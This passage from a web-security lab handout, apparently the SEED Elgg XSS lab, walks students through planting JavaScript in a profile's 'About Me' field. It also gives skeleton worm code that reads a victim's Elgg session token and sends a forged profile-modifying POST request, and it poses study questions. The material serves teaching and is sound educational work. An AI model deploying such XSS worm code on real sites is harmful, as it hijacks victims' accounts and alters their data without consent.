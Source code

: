   </tr>

 </tbody>

</table>

The above code should be placed in the “About Me” field of Samy’s profile page. This field provides two editing modes: Editor mode (default) and Text mode. The Editor mode adds extra HTML code to the text typed into the field, while the Text mode does not. Since we do not want any extra code added to our attacking code, the Text mode should be enabled before entering the above JavaScript code. This can be done by clicking on “Edit HTML”, which can be found at the top right of the “About Me” text field.

Questions.    Please answer the following questions:

<ul>

 <li>Question 1: Explain the purpose of Lines À and Á, why are they are needed?</li>

 <li>Question 2: If the Elgg application only provide the Editor mode for the “About Me” field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?</li>

</ul>

<h2>2.6        Task 5: Modifying the Victim’s Profile</h2>

The objective of this task is to modify the victim’s profile when the victim visits Samy’s page. We will write an XSS worm to complete the task. This worm does not self-propagate; in task 6, we will make it self-propagating.

Similar to the previous task, we need to write a malicious JavaScript program that forges HTTP requests directly from the victim’s browser, without the intervention of the attacker. To modify profile, we should first find out how a legitimate user edits or modifies his/her profile in Elgg. More specifically, we need to figure out how the HTTP POST request is constructed to modify a user’s profile. We will use Firefox’s HTTP inspection tool. Once we understand how the modify-profile HTTP POST request looks like, we can write a JavaScript program to send out the same HTTP request. We provide a skeleton JavaScript code that aids in completing the task.

<table width="624">

 <tbody>

  <tr>

   <td width="624">&lt;script type=”text/javascript”&gt; window.onload = function(){//JavaScript code to access user name, user guid, Time Stamp __elgg_ts//and Security Token __elgg_token var userName=elgg.session.user.name; var guid=”&amp;guid=”+elgg.session.user.guid; var ts=”&amp;__elgg_ts=”+elgg.security.token.__elgg_ts; var token=”&amp;__elgg_token=”+elgg.security.token.__elgg_token;//Construct the content of your url.var content=…;                         //FILL IN</td>

  </tr>

  <tr>

   <td width="624">var samyGuid=…;            //FILL IN if(elgg.session.user.guid!=samyGuid)               À{//Create and send Ajax request to modify profile var Ajax=null;Ajax=new XMLHttpRequest();Ajax.open(“POST”,sendurl,true);Ajax.setRequestHeader(“Host”,”www.xsslabelgg.com”);Ajax.setRequestHeader(“Content-Type”,“application/x-www-form-urlencoded”);Ajax.send(content);}}&lt;/script&gt;</td>

  </tr>
